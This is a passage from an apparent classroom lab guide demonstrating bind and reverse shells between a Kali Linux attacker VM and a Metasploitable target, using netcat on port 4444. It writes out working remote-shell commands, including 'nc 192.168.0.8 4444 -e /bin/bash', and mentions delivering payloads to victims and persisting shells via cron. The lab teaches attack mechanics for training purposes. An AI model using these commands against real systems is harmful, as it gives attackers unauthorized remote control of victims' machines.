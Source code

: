    - On the Kali machine, run the command to establish a connection to port `4444` using the local IP address of Kali Linux. 

     - `nc 192.168.0.10 4444`


   - This command should successfully connect us on the Kali Machine, giving us remote control of the Metasploitable machine. 

        - Next, demonstrate code execution by typing `ls`, `whoami`, and `pwd` to illustrate that the shell is active on the target Metasploitable machine.

      ![Bind 1](Images/BIND_1.png)

We have successfully established a connection between the attacker and target machines!

See if there are any questions before moving onto a reverse shell. 

#### Reverse Shell Demonstration

A reverse shell is initiated from the target host back to the attacker, who will have a listener. 

We would use a reverse shell  if we sent the victim a malicious script that tricked them into opening the payload for us, or after or during our initial breach into their system. We could also set up a reverse shell to run as a cron job. 

1. Start a listener on the attacker's Kali machine.

   - On Kali Linux, run the following command:

      - `nc -lvnp 4444`


2. On the Metasploitable VM, run the following command:

   - `nc 192.168.0.8 4444 -e /bin/bash`

     -  `nc`: Starts the listener on port `4444`.
     - `-e /bin/bash`: Provides a shell to the connecting machine, in this case the attacking Kali machine.

   ![REV 2](Images/REVERSE_2.png)

3. Back on the Kali machine, you should see a successful connection.

   - Demonstrate code execution by running the following on the Kali machine:

      - `whoami`
      - `ifconfig`
